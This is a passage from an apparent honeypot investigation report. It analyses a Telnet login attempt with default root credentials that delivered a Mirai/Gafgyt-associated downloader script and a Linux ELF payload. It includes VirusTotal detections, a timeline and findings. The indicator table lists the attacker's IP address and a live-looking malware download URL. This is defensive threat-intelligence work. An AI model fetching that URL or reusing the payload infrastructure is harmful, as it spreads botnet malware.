

An expanded HTTP request also showed the `Wget/1.21.2` user agent used in the observed sandbox network activity.



The sandbox analysis listed dropped artifacts, including files under `/tmp` and persistence-related paths such as `/etc/cron.d/` and `/etc/systemd/system/`. These are **sandbox-observed behaviors**, not proof that the underlying Vultr host was modified.



## 10. Follow-On Payload Investigation: `net.x86_64`

I continued the investigation by reviewing a Linux executable associated with the downloader's observed activity.

| Attribute | Result |
| --- | --- |
| Filename | `net.x86_64` |
| File type | ELF executable, 64-bit |
| Approximate size | 186.16 KB |
| SHA-256 | `cd6ccc5dabe85309a938e43c9508998bb0f52a9264fa9ba9276956f7fa42f48d` |
| Malicious detections | **43/63** |
| Detection shown | `Linux/Mirai07.Exp` |
| Popular threat label | `trojan.mirai/gafgyt` |



The VirusTotal code insights described behaviors associated with Linux botnet malware, including persistence mechanisms, process interference, network flooding functionality, and encrypted command-and-control communication.

The two samples have different hashes and detection counts. The `kla.sh` script was assessed as a downloader, while `net.x86_64` was analyzed as a follow-on Linux executable. The evidence supports a **Mirai/Gafgyt-associated malware assessment**; vendor family labels are not definitive attribution to a single strain or operator.

## 11. Indicators of Compromise

| Indicator type | Value |
| --- | --- |
| Source IP | `160.119.66.206` |
| Protocol | Telnet |
| Destination port | TCP/23 |
| Simulated credentials | `root/root` |
| Downloaded script | `kla.sh` |
| Download URL | `http://160.119.66.206/bins/kla.sh` |
| Script SHA-256 | `39be6853a8204ce6455a373a6ffb4cb4672d4a62d90be69f7d6eeb66cda10b96` |
| Follow-on executable | `net.x86_64` |
| Executable SHA-256 | `cd6ccc5dabe85309a938e43c9508998bb0f52a9264fa9ba9276956f7fa42f48d` |
| Malware associations | Mirai / Gafgyt |

These indicators describe the observed investigation and should be validated against current threat intelligence before being used for blocking or attribution.

## 12. Investigation Timeline

| Time (Pacific) | Event |
| --- | --- |
| 22:46:44 | Suspicious Telnet commands observed |
| 22:46:44 | Attempt to download `kla.sh` |
| 22:46:45 | Cowrie recorded a simulated successful `root/root` login |
| 22:46:45 | Cowrie recorded malware download activity |
| 22:46:45 | Additional downloader command submitted |
| 22:46:46 | Additional download successes and failures recorded |
| 22:46:48 | Malicious sessions closed |

These timestamps represent activity across multiple related Cowrie sessions rather than one uninterrupted session. The sequence is based on the supplied event record.

## 13. Key Findings

1. A publicly accessible Cowrie honeypot received suspicious Telnet connections.
2. The source attempted to authenticate using default Linux credentials.
3. Cowrie simulated successful authentication and recorded attacker interactions.
4. The attacker attempted to download and execute a remote shell script.
5. Cowrie captured the malicious script and recorded download outcomes.
6. VirusTotal flagged `kla.sh` as malicious (**32/60**) and associated it with a Mirai-related downloader.
7. The script attempted to retrieve architecture-specific Linux payloads.
8. A follow-on ELF sample, `net.x86_64`, was flagged by **43/63** vendors and associated with Mirai/Gafgyt malware.

The evidence supports an attempted automated malware deployment against the honeypot. It does **not** establish successful compromise of the underlying Vultr server or identify the person controlling the attacking infrastructure.

## 14. Conclusion

This investigation demonstrated how a publicly exposed honeypot can capture real-world malicious activity and provide useful evidence for SOC analysis and threat intelligence.

By correlating Cowrie authentication events, attacker commands, captured artifacts, and VirusTotal detections, I reconstructed the observed attack sequence and identified its association with Mirai-related Linux malware distribution.

The project provided hands-on experience in security event investigation, Linux command analysis, malware identification, indicator extraction, and threat intelligence correlation.

**Final assessment:** The observed activity was consistent with an automated Telnet-based malware deployment attempt involving a Mirai-associated Linux downloader and a follow-on ELF payload. The investigation concluded with the identification of `kla.sh` (**32/60**) and `net.x86_64` (**43/63**) as malicious or suspicious samples associated with Linux botnet activity.
